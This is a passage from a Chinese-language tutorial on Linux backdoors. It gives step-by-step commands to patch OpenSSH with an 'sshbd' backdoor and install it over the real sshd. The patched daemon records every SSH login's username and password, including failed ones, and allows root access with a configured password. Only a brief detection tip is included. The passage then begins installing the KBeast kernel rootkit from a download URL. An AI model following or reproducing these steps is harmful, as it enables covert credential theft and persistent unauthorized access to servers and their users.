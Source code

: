 先patch

```
wget http://mirror.corbina.net/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
tar zxvf openssh-5.9p1.tar.gz
cp sshbd5.5p1.diff openssh-5.9p1/
cd openssh-5.9p1
patch < sshbd5.9p1.diff

```

安装依赖

```
yum install zlib-devel
yum install openssl-devel
yun install pam-devel
yun install krb5-lib(没安装)

```

修改includes.h

![p5](http://drops.javaweb.org/uploads/images/3fb1798fc7ed4cf764c215042dda724a32080a21.jpg)

编译安装再重启sshd服务

```
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make && make install && service  sshd restart

```

利用：

会记录登入登出的ssh账号密码(错误的也会记录),配置文件中设置的密码,也可以通过ssh然后root登陆。

![p6](http://drops.javaweb.org/uploads/images/54b4ad0151f4b1b95f6dd6b5ae053aa105426679.jpg)

发现：

![p7](http://drops.javaweb.org/uploads/images/a3515c60092eb379da3f0b7b2a35b6590fb68d57.jpg)

找到可疑sshd并且查看一下last的登陆ip，最后kill他们的进程,清除暂时不知

0x07 Kbeast_rootkit
===================

* * *

[http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz](http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz)

```
tar -zxvf ipsecs-kbeast-v1.tar.gz
cd kbeast-v1/
vi config.h

```
